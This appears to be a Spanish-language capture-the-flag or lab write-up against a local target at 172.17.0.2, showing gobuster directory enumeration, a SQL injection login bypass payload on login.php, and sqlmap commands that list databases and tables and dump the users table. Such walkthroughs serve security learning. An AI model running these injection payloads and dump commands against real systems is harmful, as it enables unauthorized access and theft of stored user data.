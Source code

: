 ## HTTP (80)

Usamos **gobuster** :

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,html,php,js,txt,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 4025]
/login.php            (Status: 200) [Size: 1039]
/register.php         (Status: 200) [Size: 1053]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================



```

# EXPLOTACION

En el **login.php** :

Si metemos un `s' or 1=1 -- -` , vemos que es vulnerable a un **SQLI**.

Vamos a usar **sqlmap** :

```bash
sqlmap -u "http://172.17.0.2/login.php" --batch --forms --dbs
available databases [5]:
[*] information_schema
[*] injectors_db
[*] mysql
[*] performance_schema
[*] sys

sqlmap -u "http://172.17.0.2/login.php" --batch --forms -D injectors_db --tables 
Database: injectors_db
[1 table]
+-------+
| users |
+-------+

sqlmap -u "http://172.17.0.2/login.php" --batch --forms -D injectors_db -T users --dump
```
